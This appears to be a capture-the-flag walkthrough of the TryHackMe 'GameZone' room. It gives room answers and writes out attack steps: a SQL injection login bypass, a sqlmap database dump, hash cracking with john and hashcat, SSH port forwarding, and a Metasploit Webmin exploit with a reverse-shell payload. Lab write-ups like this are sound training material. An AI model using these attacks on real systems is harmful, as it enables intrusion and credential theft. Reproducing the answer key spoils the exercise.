 # GameZone Wlakthrough
### Link
- https://tryhackme.com/room/gamezone
------------------------
- What is the name of the large cartoon avatar holding a sniper on the forum?
	- **Answer** : Agent 47 (main character of the videogame HITMAN)
- Obtain access via SQLi
	- Use ' or 1=1 -- - as your username and leave the password blank.
     - picture: [GameZone_1.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_1.png)
	- **Answer** : portail.php
- Using SQLMap
	- Intercept the request from portail.php by using BurpSuite
         - picture: [GameZone_3.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_3.png),[GameZone_4.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_4.png)
	- Save the request in text file
	- We can then pass this into SQLMap to use our authenticated user session.
		SQLMap option:
			-r uses the intercepted request you saved earlier
			--dbms tells SQLMap what type of database management system it is
			--dump attempts to outputs the entire database
		sqlmap -r request --dbms=mysql --dump
        - picture: [GameZone_5.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_5.png)
	- In the users table, what is the hashed password?
	    - **Answer**: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
	- What was the username associated with the hashed password?
		- **Answer**: agent47
	- What was the other table name?
		- **Answer**: post
- Cracking a password with Johntheripper
	John option:
			hash.txt - contains a list of your hashes (in your case its just 1 hash)
			--wordlist - is the wordlist you're using to find the dehashed value
			--format - is the hashing algorithm used. In our case its hashed using SHA256.
	john hash.txt --wordlist=[path the wordlist] --format=Raw-SHA256


- Cracking with hashcat

	sudo hashcat -m 1400 [path to hash file] [path to wordlist] --force
    - picture: [GameZone_6.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_6.png),[GameZone_7.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_7.png),[GameZone_8.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_8.png)
	- What is the de-hashed password?
		- **Answer**: videogamer124
	- What is the user flag?
		- **Answer**:649ac17b1480ac13ef1e4fa579dac95c

- Exposing services with reverse SSH tunnels
	- How many TCP sockets are running? 
    - picture: [GameZone_9.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_9.png)
	- execute the command : ss -tulpn
	    - **Answer**: 5

	
We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run ssh -L 10000:localhost:10000 <username>@<ip>

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

- What is the name of the exposed CMS?
 - picture: [GameZone_12.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_12.png)
	- **Answer**: webmin

- What is the CMS version?	
 - picture: [GameZone_13.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_13.png)
	- **Answer**:1.580


- Privilege Escalation with Metasploit
	- start metasploit
	- search exploit undr the metasploit db
		- search webmin
         - picture: [GameZone_14.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_14.png)
		- Select the Remote command execution -->  0  exploit/unix/webapp/webmin_show_cgi_exec
		- use [exploit number]
		- check settings : show info
         - picture: [GameZone_15.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_15.png)
			- We need to set PASSWORD / USERNAME / RHOST / RPORT
             - picture: [GameZone_16.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_16.png)	
				- set PASSWORD videogamer124
				- set USERNAME agent47
				- set RPORT 10000
				- set RHOST localhost (we target the localhost not the IP)
				- set ssl false (we are connecting to  port than 80) 	
			- show payloads
				- set payload cmd/unix/reverse
                 - picture: [GameZone_18.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_9.png)
				- set lhost [local machine IP]
                 - picture: [GameZone_19.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_9.png)
			- Execute the payload
				- run
                 - picture: [GameZone_20.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_20.png)
			- access to the session in background
				- sessions 1
                 - picture: [GameZone_21.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_21.png)
			- find the flag
                - picture: [GameZone_22.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_22.png)
				 - **Answer**:a4b945830144bdd71908d12d902adeee